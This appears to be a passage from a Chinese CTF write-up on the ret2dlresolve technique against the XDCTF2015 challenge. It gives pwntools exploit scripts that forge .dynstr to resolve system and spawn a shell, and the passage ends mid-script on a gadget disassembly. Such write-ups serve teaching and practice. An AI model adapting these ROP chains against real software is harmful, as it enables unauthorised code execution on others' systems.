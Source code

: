 ```python
read_plt_addr=elf.plt['read']
strlen_plt_addr=elf.plt['strlen']
strlen_jmpplt=strlen_plt_addr+0x6
main_addr=elf.sym['main']
vuln_addr=elf.sym['vuln']
new_stack=bss_addr+0x200
pop_rbp=0x0000000000400588
pop_rdi=0x400773
pop_rsi_r15=0x400771
leave=0x40063c
dynstr=0x0600988+0x8

# 2次read，1次call dl
payload1=120*'a'
payload1+=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(new_stack)+p64(0xdeadbeef)+p64(read_plt_addr)
payload1+=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(dynstr)+p64(0xdeadbeef)+p64(read_plt_addr)
payload1+=p64(0x4004c6)+p64(pop_rdi)+p64(new_stack)+p64(strlen_jmpplt) 
#0x4004c6为return，是为了调整栈避免调用system时段错误:movaps xmmword ptr [rsp + 0x40], xmm0
p.recvuntil('Welcome to XDCTF2015~!\n')
p.send(payload1)

dynstr=elf.get_section_by_name('.dynstr').data()
fake_dynstr=dynstr.replace('strlen','system')
payload2="/bin/sh\x00".ljust(0x10,'\x00')+fake_dynstr
p.send(payload2)

payload3=p64(new_stack_esp+0x10)# 改dynstr的地址
p.send(payload3)
p.interactive()
```

### partial relro

同32位的思路。整个流程是一个倒推的思路，cyberangle师傅的文章有分步解析，这里只讲一下###中间部分

脚本会crash的原因，是因为过不了判断，让程序不进入if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)而直接向下执行需要泄露（write）出link_map的首结点地址，即泄露0x601008处存放的地址：

所以泄露地址后将 l->l_info[VERSYMIDX(DT_VERSYM)] 设置为NULL即可绕过此if语句

![image-20220402110946393](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220402110946393.png)

```python
#coding=utf-8
from pwn import *
context.log_level='debug'
context.arch='amd64'

p=process('./main_partial_relro_64')
elf=ELF('./main_partial_relro_64')
bss_addr=elf.bss()
'''
.text:0000000000400780 loc_400780:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400780                 mov     rdx, r15
.text:0000000000400783                 mov     rsi, r14
.text:0000000000400786                 mov     edi, r13d
.text:0000000000400789                 call    qword ptr [r12+rbx*8]  //r12 read_got ;rbx==0
.text:000000000040078D                 add     rbx, 1
.text:0000000000400791                 cmp     rbp, rbx
.text:0000000000400794                 jnz     short loc_400780       //相等；rbp==1
.text:0000000000400796
.text:0000000000400796 loc_400796:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400796                 add     rsp, 8
.text:000000000040079A                 pop     rbx          //rbx==0
.text:000000000040079B                 pop     rbp          //rbp==1
```
